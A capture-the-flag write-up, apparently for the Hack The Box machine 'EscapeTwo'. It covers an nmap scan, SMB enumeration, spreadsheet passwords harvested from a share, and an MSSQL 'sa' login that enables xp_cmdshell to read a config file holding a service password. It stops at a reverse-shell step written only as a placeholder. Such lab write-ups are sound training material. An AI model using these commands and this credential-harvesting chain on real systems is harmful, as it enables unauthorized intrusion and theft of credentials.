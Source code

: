 # EscapeTwo Write-up

<img src="https://labs.hackthebox.com/storage/avatars/d5fcf2425893a73cf137284e2de580e1.png" width="200" height="200"> 

MACHINE INFORMATION

As is common in real life Windows pentests, you will start this box with credentials for the following account: `rose`:`KxEPkKe6R8su`

## Recon

### Nmap

`nmap -sC -sV 10.10.11.51`

    PORT     STATE SERVICE       VERSION
    53/tcp   open  domain        Simple DNS Plus
    88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-15 11:23:26Z)
    135/tcp  open  msrpc         Microsoft Windows RPC
    139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
    389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    |_ssl-date: 2025-01-15T11:25:00+00:00; -8s from scanner time.
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    445/tcp  open  microsoft-ds?
    464/tcp  open  kpasswd5?
    593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
    636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    |_ssl-date: 2025-01-15T11:25:00+00:00; -4s from scanner time.
    1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
    | ms-sql-ntlm-info: 
    |   10.10.11.51:1433: 
    |     Target_Name: SEQUEL
    |     NetBIOS_Domain_Name: SEQUEL
    |     NetBIOS_Computer_Name: DC01
    |     DNS_Domain_Name: sequel.htb
    |     DNS_Computer_Name: DC01.sequel.htb
    |     DNS_Tree_Name: sequel.htb
    |_    Product_Version: 10.0.17763
    |_ssl-date: 2025-01-15T11:25:00+00:00; +1s from scanner time.
    | ms-sql-info: 
    |   10.10.11.51:1433: 
    |     Version: 
    |       name: Microsoft SQL Server 2019 RTM
    |       number: 15.00.2000.00
    |       Product: Microsoft SQL Server 2019
    |       Service pack level: RTM
    |       Post-SP patches applied: false
    |_    TCP port: 1433
    | ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
    | Not valid before: 2025-01-15T10:03:32
    |_Not valid after:  2055-01-15T10:03:32
    3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    |_ssl-date: 2025-01-15T11:25:00+00:00; -8s from scanner time.
    3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
    | ssl-cert: Subject: commonName=DC01.sequel.htb
    | Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
    | Not valid before: 2024-06-08T17:35:00
    |_Not valid after:  2025-06-08T17:35:00
    |_ssl-date: 2025-01-15T11:25:00+00:00; -4s from scanner time.
    Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
    
    Host script results:
    | smb2-security-mode: 
    |   3:1:1: 
    |_    Message signing enabled and required
    |_clock-skew: mean: -2s, deviation: 4s, median: -4s
    | smb2-time: 
    |   date: 2025-01-15T11:24:19
    |_  start_date: N/A

### Netexec

`netexec ldap 10.10.11.51  -u rose -p KxEPkKe6R8su`

    SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
    LDAP        10.10.11.51     389    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 

Add IP `10.10.11.51` and domain-name `sequel.htb` to `/etc/hosts`. 

    echo "10.10.11.51 sequel.htb" | sudo tee -a /etc/hosts

### Crackmapexec

Try to enumerate SMB.

`crackmapexec smb 10.10.11.51 -u rose -p KxEPkKe6R8su` 

    SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
    SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su 
    
### SMBClient

    smbclient //10.10.11.51/Users -U SEQUEL.HTB//rose

![image](https://github.com/user-attachments/assets/3983400f-79ed-449e-8cb8-2beafca4bd08)

    smbclient //10.10.11.51/Accounting\ Department -U rose --option='client min protocol=SMB2'

![image](https://github.com/user-attachments/assets/18e726a9-5a6f-40b8-a080-0467fb65bf14)

You need to download it using the `get` command and then `unzip` it.

![image](https://github.com/user-attachments/assets/19ff0d71-5676-474e-bfda-a18196fc8bb0)

![image](https://github.com/user-attachments/assets/fe9480bb-040c-4026-952f-176923644ca6)

![image](https://github.com/user-attachments/assets/63b22e56-8c75-4812-b3e8-8ec28c5beb06)

First name, Last name / Email / Username / Password

`Angela Martin`:`angela@sequel.htb`:`angela`:`0fwz7Q4mSpurIt99`

`Oscar Martinez`:`oscar@sequel.htb`:`oscar`:`86LxLBMgEWaKUnBG`

`Kevin Malone`:`kevin@sequel.htb`:`kevin`:`Md9Wlq1E5bZnVDVo`

`NULL`:`sa@sequel.htb`:`sa`:`MSSQLP@ssw0rd!`

### MSSQLServer

    python3 mssqlclient.py 'sa:MSSQLP@ssw0rd!'@10.10.11.51

![image](https://github.com/user-attachments/assets/161f9fc9-bf3c-47a6-a725-fb7cd2eeb755)

SQL (sa  dbo@master)> `enable_xp_cmdshell`

SQL (sa  dbo@master)> `exec xp_cmdshell 'type \SQL2019\ExpressAdv_ENU\sql-Configuration.INI'`                                           

![image](https://github.com/user-attachments/assets/72fdfd63-da7a-4520-a51d-1dacea12a3f4)

SQLSVCPASSWORD="`WqSZAF6CysDQbGb3`"   

### ReverseShell

![image](https://github.com/user-attachments/assets/f4835fe1-7b9b-4287-83d4-9b8724605276)

xp_cmdshell <Your-base64-shell>

![image](https://github.com/user-attachments/assets/a5f40969-99e1-424a-8051-cdf84320c5c4)

